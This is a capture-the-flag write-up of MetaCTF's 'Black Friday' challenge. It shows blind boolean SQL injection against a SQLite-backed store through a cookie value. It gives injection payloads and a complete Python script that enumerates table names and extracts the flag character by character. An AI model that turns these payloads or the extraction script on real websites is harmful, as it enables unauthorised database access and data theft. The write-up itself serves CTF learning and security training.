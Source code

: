 # Black Friday

Author: MetaCTF

## Description

Your friend got an exclusive promo code for a really good deal with this watch store (http://host3.metaproblems.com:5900/), but they refused to share it with you. It has to be stored somewhere in the db, right? Can you help me find it?

## Solution

This is a blind, logic based, SQL injection challenge that requires table names, column names, and the flag to be extracted using various methods of logic based SQL injection.

I started this challenge by trying to determine what DBMS was running on the backend. I was able to determine that the application is using sqlite as the DBMS using the payload `1 or sqlite_version()=sqlite_version()`. 

After determining the version it is possible to extract all the table names character by character using the payload `1 and (SELECT substr(tbl_name,1,1) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 2) = 'p'`.

Using the knowledge that the target is a promo code, it is can be guessed that the column name it `promo_code`. The final payload that I used to extract the flag is `1 and (SELECT substr(promo_code,1,1) FROM promos limit 1 offset 2) = '<character>'`.

![](img/flag.png)

Flag: `flag{this_is_a_pretty_good_deal}`

```python
import requests
import time

url = 'http://host3.metaproblems.com:5900/'

def getNumTables():
    num_tables = 1

    while True:
        injection = f"1 and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%') = {num_tables}"

        cookie = {'ww_store':injection}
        r = requests.get(url, cookies=cookie)

        if "Store not found." not in r.text:
            return num_tables
        else:
            num_tables += 1

def getTables(num_tables):
    tables = []
    
    for i in range(num_tables):
        alphabet = ['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','0','1','2','3','4','5','6','7','8','9','fail']
        cur_table = []
        break_out = False
        for j in range(10):
            for char in alphabet:
                time.sleep(0.4)
                injection = f"1 and (SELECT substr(tbl_name,{j+1},1) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset {i}) = '{char}'"

                cookie = {'ww_store':injection}
                r = requests.get(url, cookies=cookie)

                if char == 'fail':
                    tables.append(''.join(cur_table))
                    print(f"Found: {''.join(cur_table)}")
                    break_out = True
                    break
                elif "Store not found." not in r.text:
                    cur_table.append(char)
                    j += 1
                    break
            if break_out == True:
                break

    return ', '.join(tables)

def getFlag(table, column):
    alphabet = ['{','}','a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','0','1','2','3','4','5','6','7','8','9','fail']
    flag = []
    j = 1

    while True:
        for char in alphabet:
            time.sleep(0.4)
            injection = f"1 and (SELECT substr({column},{j},1) FROM {table} limit 1 offset 2) = '{char}'"

            cookie = {'ww_store':injection}
            r = requests.get(url,cookies=cookie)
            
            if char == 'fail':
                flag.append("_")
                j += 1
            elif "Store not found." not in r.text:
                flag.append(char)
                if char == "}":
                    return ''.join(flag)
                j += 1
                break

try:
    num_tables = getNumTables()
    print(f"Number of Tables: {num_tables}")
    print(f"Tables: {getTables(num_tables)}")
    table = input("Which table would you like to target?: ")
    column = input("Which column would you like to target?: ")
    print(f"Flag: {getFlag(table,column)}")
except KeyboardInterrupt:
    exit()
```

